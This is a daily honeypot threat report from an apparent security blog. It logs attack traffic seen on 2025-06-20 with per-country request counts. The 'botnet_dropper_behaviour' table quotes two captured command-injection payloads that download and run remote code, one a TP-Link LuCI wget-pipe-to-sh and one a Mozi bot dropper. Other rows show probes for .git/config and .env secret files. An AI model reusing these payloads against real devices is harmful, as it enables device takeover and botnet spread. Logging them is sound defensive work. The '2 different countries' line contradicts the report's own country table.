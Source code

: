 ```yaml
---
title: "Report: 2025-06-20 "
date: 2025-06-20
desciption: "Report: 2025-06-20" 
tags: [repport, daily]
---
```



# Daily Report: 2025-06-20 
# Executive summary
interaction report on http service of various Hhoneypot around the world. 

- [Executive summary](#executive_summary)
- [OT report simplified](#ot_simplified_report)
- [Botnet dropper behaviour](#botnet_dropper_behaviour)
- [List of request](#request)
- [List of country_iso_code](#country_iso_code)

## executive_summary

In today’s repport, we detected 2 stage 1 IP address(es), linked to 2 dropper URL(s).  

There are 10 new requests that have never been observed before (these were added to the monitored [request database.](https://blog.shoggoth.industries/database/request_database/)).  

A total of 746 requests were recorded during the day, originating from 2 different countries, with a peak of 174 requests coming from US.


## ot_simplified_report
simplified report for medium-level interactions with honeypots that mimic industrial systems (web site loading, or interactions with the website), for more contact us on social@shoggoth.industries.
| source_country   | targeted_country   |
|:-----------------|:-------------------|
| PT               | Dubai              |
| US               | Dubai              |
| CN               | Georgia            |

## botnet_dropper_behaviour
| remote_addr   | request                                                                                                                     |
|:--------------|:----------------------------------------------------------------------------------------------------------------------------|
| 87.121.84.34  | GET /cgi-bin/luci/;stok=/locale?form=country&operation=write&country=$(wget+http://220.158.232.99/x/tplink+-O-|sh) HTTP/1.1 |
| 59.88.92.70   | 27;wget%20http://%s:%d/Mozi.m%20-O%20->%20/tmp/Mozi.m;chmod%20777%20/tmp/Mozi.m;/tmp/Mozi.m%20dlink.mips%27$ HTTP/1.0       |

## request

The list of requests presented here are those that have not yet been yet integrated into the [request database.](https://blog.shoggoth.industries/database/request_database/)

|     |   number_of_occurence | request                           |
|----:|----------------------:|:----------------------------------|
|  75 |                     1 | GET /venv/.git/config HTTP/1.1    |
|  76 |                     1 | GET /forex/.git/config HTTP/1.1   |
|  77 |                     1 | GET /crypto/.git/config HTTP/1.1  |
|  78 |                     1 | GET /pytorch/.git/config HTTP/1.1 |
| 131 |                     1 | GET /z7Ic HTTP/1.1                |
| 132 |                     1 | GET /7aOu HTTP/1.1                |
| 142 |                     1 | GET /mQDZ HTTP/1.1                |
| 172 |                     1 | GET /oauth/.git/config HTTP/1.1   |
| 225 |                     1 | GET /Set1 HTTP/1.1                |
| 262 |                     1 | GET //admin/.env HTTP/1.1         |

## country_iso_code

|    |   number_of_occurence | country_iso_code   |
|---:|----------------------:|:-------------------|
|  0 |                   174 | US                 |
|  1 |                   105 | CN                 |
|  2 |                    63 | NL                 |
|  3 |                    48 | BG                 |
|  4 |                    46 | RU                 |
|  5 |                    44 | PT                 |
|  6 |                    31 | GB                 |
|  7 |                    29 | JP                 |
|  8 |                    26 | AU                 |
|  9 |                    25 | DE                 |
| 10 |                    18 | SG                 |
| 11 |                    14 | CA                 |
| 12 |                    14 | IN                 |
| 13 |                    11 | NG                 |
| 14 |                     8 | FR                 |
| 15 |                     8 | LT                 |
| 16 |                     7 | IR                 |
| 17 |                     7 | SC                 |
| 18 |                     7 | AO                 |
| 19 |                     6 | TR                 |
| 20 |                     6 | RO                 |
| 21 |                     5 | GR                 |
| 22 |                     5 | KR                 |
| 23 |                     5 | BE                 |
| 24 |                     4 | UA                 |
| 25 |                     3 | GH                 |
| 26 |                     3 | HK                 |
| 27 |                     3 | ZA                 |
| 28 |                     3 | KZ                 |
| 29 |                     3 | DZ                 |
| 30 |                     2 | PL                 |
| 31 |                     2 | TW                 |
| 32 |                     2 | IE                 |
| 33 |                     1 | HU                 |
| 34 |                     1 | RS                 |
| 35 |                     1 | BD                 |
| 36 |                     1 | AZ                 |
| 37 |                     1 | CZ                 |
| 38 |                     1 | AR                 |
| 39 |                     1 | ES                 |
| 40 |                     1 | BI                 |
| 41 |                     1 | PA                 |
